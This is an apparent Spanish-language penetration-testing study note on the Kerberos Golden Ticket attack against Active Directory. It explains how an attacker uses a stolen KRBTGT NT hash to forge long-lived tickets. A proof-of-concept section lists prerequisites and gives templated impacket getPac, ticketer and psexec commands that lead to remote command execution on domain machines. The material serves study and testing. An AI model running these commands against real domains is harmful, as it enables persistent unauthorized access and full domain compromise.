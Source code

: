 ------
- Tags: #toeria #practica #ataque 
-----
# [Golden Ticket Attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket)
### El ataque **Golden Ticket** es una técnica de explotación utilizada en entornos que emplean el protoclo de autenticación de [[Kerberos]]. Permite a un atacante generar y utilizar un TGT (Ticket Granting Ticket, token de autenticación que se utiliza para solicitar TGS), válido de forma indefinida, lo que le otorga acceso persistente y no autorizado a una red corportavia. Este ataque es muy peligroso y potencialmente devastador, ya que puede permitir al atacante acceder a recursos críticos de la red sin ser detectado durante un período prolongado de tiempo, a cualquier servicio como cualquier usuario.

----
# Explotación 

- ### **Recolección de Información**: El atacante comienza recopilando información crítica sobre la infraestructura de red del objetivo. Esto puede incluir la obtención del Hash NT de la cuenta **KRBTGT** en el Domain Controller, que es **esencial** para generar el Golden Ticket.

- ### **Obtención de Credenciales**: Para generar un Golden Ticket, el atacante debe obtener el **hash NT del KRBTGT** y otros datos sensibles del entorno. Esto puede lograrse mediante técnicas como el robo de credenciales a través de herramientas como **Mimikatz**.

- ### **Generación del Golden Ticket**: Con el hash NT del KRBTGT y otros datos recopilados, el atacante utiliza herramientas especializadas para crear un Golden Ticket. Este ticket forjado se firma criptográficamente y es prácticamente indistinguible de un TGT legítimo.

- ### **Persistencia**: El Golden Ticket generado por el atacante tiene una vida útil larga (generalmente 10 años) y se puede utilizar de manera persistente. Incluso si las contraseñas de los usuarios cambian, el Golden Ticket sigue siendo válido y permite al atacante acceder a recursos críticos durante un largo período de tiempo.

- ### **Acceso Ilimitado**: El Golden Ticket otorga al atacante acceso ilimitado a la red y a todos los recursos protegidos por el sistema de autenticación Kerberos. Esto incluye el acceso a servidores, sistemas de almacenamiento y cualquier recurso que utilice Kerberos para la autenticación.

-----
# PoC
### Por ejemplo, podemos estar en tenencia de el Hash NT de la cuenta de sistema **KRBTGT** el cual podemos utilizar para realizar un **Golden Ticket Attack**.
### En este caso, es crucial tener en cuenta que debemos enfrentarnos a un escenario en el cual tenemos que tener:
### **1)** El Hash NT del KRBTGT: Este puede ser obtenido del proceso **LSASS (Local Security Authority Subsystem Service)** o del archivo **NTDS.dit** (Base de datos que almacena datos de Active Directory, podría realizarse [[Abuso de SeBackupPrivilege]]) o incluso a raiz de un [[DCsync Attack]].
### **2)** Nombre de dominio completo. 
### **3)** El SID del Domain (Security Identifier): Identificador único y alfanumérico que se utiliza en los sistemas operativos Windows para identificar de manera única a usuarios, grupos y objetos de seguridad dentro de un dominio o una red.

### Teniendo en cuenta que el **TGT** de **caualquier usuario** puede ser creado en este ataque, podemos una vez más, al igual que en el [[Silver Ticket Attack]] hacer uso de las herramientas **impacket-getPac**, **impacket-ticketer** y **impacket-psexec**. 
### Obtener el **RID** del **Dominio**:

```bash
impacket-getPac -targetUser {username} -hashes :{nt_hash} {domain}/{username}
```
### Una vez que tengamos el SID del dominio, solo faltaría solicitar el **Golden Ticket** (TGT) con herramientas como **impacket-ticketer** o **ticketer.py**, es importante tener en cuenta que la ventaja de crear un **TGT** es que en a diferencia del TGS, este nos permite en cambio tener acceso a cualquier servicio o máquina en el dominio.

```bash
python3 ticketer.py -nthash {hash_nt} -domain-sid {sid} -domain {domain} {user} 

impacket-ticketer -nthash {hash_nt} -domain-sid {sid} -domain {domain} {user} 
```
### Una vez obtenido el ticket, como siempre solo hace falta exportarlo con la variable de entorno **KRB5CCNAME** y hacer uso de herramientas como **impacket-psexec** o **psexec.py** para la ejecución de acciones de manera remota.

```bash
export KRB5CCNAME={path/to/user.ccache/downloaded}

python3 psexec.py {dc}/{username}@{ip} -k -no-pass

impacket-psexec {dc}/{username}@{ip} -k -no-pass
```
### Obteniendo así, una vez más, la [[RCE - (Remote Command Execution)]].